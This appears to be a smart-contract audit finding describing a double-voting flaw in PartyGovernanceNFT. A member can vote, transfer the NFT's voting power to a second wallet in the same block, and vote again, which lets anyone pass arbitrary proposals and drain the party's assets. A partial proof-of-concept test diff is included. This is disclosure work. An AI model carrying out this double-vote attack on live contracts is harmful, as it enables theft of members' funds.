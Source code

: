 _Submitted by Lambda, also found by Trust_

`PartyGovernanceNFT` uses the voting power at the time of proposal when calling `accept`. The problem with that is that a user can vote, transfer the NFT (and the voting power) to a different wallet, and then vote from this second wallet again during the same block that the proposal was created.
This can also be repeated multiple times to get an arbitrarily high voting power and pass every proposal unanimously.

The consequences of this are very severe. Any user (no matter how small his voting power is) can propose and pass arbitrary proposals animously and therefore steal all assets (including the precious tokens) out of the party.

### Proof Of Concept

This diff shows how a user with a voting power of 50/100 gets a voting power of 100/100 by transferring the NFT to a second wallet that he owns and voting from that one:

```diff
--- a/sol-tests/party/PartyGovernanceUnit.t.sol
+++ b/sol-tests/party/PartyGovernanceUnit.t.sol
@@ -762,6 +762,7 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         TestablePartyGovernance gov =
             _createGovernance(100e18, preciousTokens, preciousTokenIds);
         address undelegatedVoter = _randomAddress();
+        address recipient = _randomAddress();
         // undelegatedVoter has 50/100 intrinsic VP (delegated to no one/self)
         gov.rawAdjustVotingPower(undelegatedVoter, 50e18, address(0));

@@ -772,38 +773,13 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         // Undelegated voter submits proposal.
         vm.prank(undelegatedVoter);
         assertEq(gov.propose(proposal, 0), proposalId);
-
-        // Try to execute proposal (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
-        gov.execute(
-            proposalId,
-            proposal,
-            preciousTokens,
-            preciousTokenIds,
-            "",
-            ""
-        );
-
-        // Skip past execution delay.
-        skip(defaultGovernanceOpts.executionDelay);
-        // Try again (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
-        gov.execute(
-            proposalId,
-            proposal,
-            preciousTokens,
-            preciousTokenIds,
-            "",
-            ""
-        );
```